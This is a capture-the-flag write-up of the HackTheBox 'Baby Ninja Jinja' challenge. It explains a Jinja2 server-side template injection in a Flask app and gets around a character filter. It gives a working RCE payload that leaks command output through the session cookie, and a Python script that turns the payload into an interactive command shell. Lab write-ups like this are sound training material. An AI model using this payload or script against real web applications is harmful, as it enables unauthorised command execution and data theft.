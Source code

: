 ```yaml
---
description: Baby Ninja Jinja challenge from HackTheBox write up.
---
```


# Baby Ninja Jinja

## Initial enumeration

The page shows a little box to enter your "ninja" name and after that it just ask you to wait for approval. Using Gobuster, we can find two new locations in the site: `/console` and `/debug`. The first one is a Python console that asks for a password we don't have and the second shows the application code.

## Checking the code

Looking around it is obvious that the page is vulnerable to SSTI, what is awesome to get potencial RCE (It is also vulnerable to SQL injection but I will focus in the SSTI):

```python
def born2pwn(*args, **kwargs):

    name = request.args.get('name', '')

    if name:
        query_db('INSERT INTO ninjas (name) VALUES ("%s")' % name)

        report = render_template_string(acc_tmpl.
            replace('baby_ninja', query_db('SELECT name FROM ninjas ORDER BY id DESC', one=True)['name']).
            replace('reb_num', query_db('SELECT COUNT(id) FROM ninjas', one=True).itervalues().next())
        )

        if session.get('leader'): 
            return report

        return render_template('welcome.jinja2')
    return func(*args, **kwargs)
```

As we can see, after inserting our input in the database, it would just take it back and use it to render a template without sanitizing the content we control. Just one thing, the database is filtering some characters and expressions:

```python
def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect('/tmp/ninjas.db')
        db.isolation_level = None
        db.row_factory = sqlite3.Row
        db.text_factory = (lambda s: s.replace('{{', '').
            replace("'", '&#x27;').
            replace('"', '&quot;').
            replace('<', '&lt;').
            replace('>', '&gt;')
        )
    return db
```

So, we can't use `{{` for our SSTI. Using `{%` in the input field will throw a syntax error but using `{{` will just work as any other input. Also, make sure to not use `'`, `"`, `<` or `>` because the application is encoding them and won't work as expected in the payloads.

Looking at the `born2pwn` function a bit more, looks like if a cookie session exists with a key named `leader`, the application will show the page for an authenticated user. This could be cool because the page would print our payload as our name (Executing our template code), but since we have to use statements with the `{%  %}` delimiters, we can't really print anything to the page.

## Exploiting the SSTI

Right now we can't see the output of our RCE what makes hard to know if we are really executing something. We can dump the RCE output into the session cookie and then decode it to check the result.

The payload to execute the `id` command would be:
```bash
<URL>?name={% if session.update({request.args.key:self._TemplateReference__context.cycler.__init__.__globals__.os.popen(request.args.command).read()}) == 1 %}{% endif %}&key=leader&command=id
```
You can see that to avoid using strings, the payload adds some GET parameters to be able to set the dictionary key and the command to execute.

After requesting the page with the payload, we can get the session cookie and decode it with `flask-unsign` to check our RCE output:
```bash
┌──(kali㉿kali)-[~]
└─$ flask-unsign --decode --cookie '.eJyrVspJTUxJLVKyqlZSSFKyUkoJz8kOCIk09AvxNfB2Ny2LzLXMTg3OTo8ywirurVRbCwDoPBX1.YaKRYA.KYAop-Z0Z7-YE86IhrjIfW8DMNo'
{'leader': b'uid=65534(nobody) gid=65534(nobody)\n'}
```

### Getting the flag

To make the process of executing commands easier I wrote a little Python script:
```python
#! /usr/bin/env python3

import requests
import flask_unsign


url = '<URL>/?name={% if session.update({request.args.key:self._TemplateReference__context.cycler.__init__.__globals__.os.popen(request.args.command).read()}) == 1 %}{% endif %}&key=leader&command='

command = ''
while(command != 'exit'):
	command = input ('Command to inject: ')
	response = requests.get(f'{url}{command}')
	if(response.ok):
		encoded_cookie = response.cookies['session']
		decoded_cookie = flask_unsign.decode(encoded_cookie)
		command_output = decoded_cookie['leader'].decode()
		print(command_output)
```

```bash
┌──(kali㉿kali)-[~/Documents/HTB/baby ninja jinja]
└─$ ./rce.py
Command to inject: ls
app.py
flag_P54ed
schema.sql
static
templates

Command to inject: cat flag_P54ed
HTB{***}

Command to inject:
```

I tried to get a reverse shell but looks like something is blocking the conections (Maybe is just me being silly).
